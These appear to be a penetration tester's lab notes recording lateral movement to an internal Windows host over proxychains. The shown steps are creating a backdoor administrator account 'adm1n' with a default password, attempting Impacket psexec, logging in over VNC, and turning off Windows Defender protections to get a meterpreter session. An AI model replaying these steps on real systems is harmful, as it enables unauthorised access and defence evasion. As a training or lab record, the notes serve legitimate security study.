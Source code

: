 ```powershell
adm1n
Administrator
The command completed successfully.

```
tried to psexec on with new adm1n credentials
```
psexec didnt work.
```bash
┌──(root㉿kali)-[/tmp]
└─# proxychains psexec.py adm1n:'P@ssw0rd'@172.16.1.201
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
Impacket v0.9.24.dev1+20210704.162046.29ad5792 - Copyright 2021 SecureAuth Corporation

[proxychains] Strict chain  ...  127.0.0.1:1080  ...  172.16.1.201:445  ...  OK
[*] Requesting shares on 172.16.1.201.....
[-] share 'ADMIN$' is not writable.
[-] share 'C$' is not writable.

```
VNCviewer
```bash
┌──(root㉿kali)-[/tmp]
└─# proxychains vncviewer 172.16.1.201:5900
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  172.16.1.201:5900  ...  OK
Connected to RFB server, using protocol version 3.8
Enabling TightVNC protocol extensions
Performing standard VNC authentication
Password: 
Authentication successful
Desktop name "joe-lptp"
```
On as joe on JOE-LPTP
![[Pasted image 20230810171157.png]]
right clicked and ran as administrator and utilized the adm1n account that I created with the default P@ssw0rd
![[Pasted image 20230810171336.png]]
On as adm1n
![[Pasted image 20230810171445.png]]
Going to disable windows defender to get a meterpreter session
![[Pasted image 20230810171631.png]]
windows defender firewall was already off
![[Pasted image 20230810171725.png]]
turned off every setting in virus & threat protection settings
![[Pasted image 20230810171939.png]]
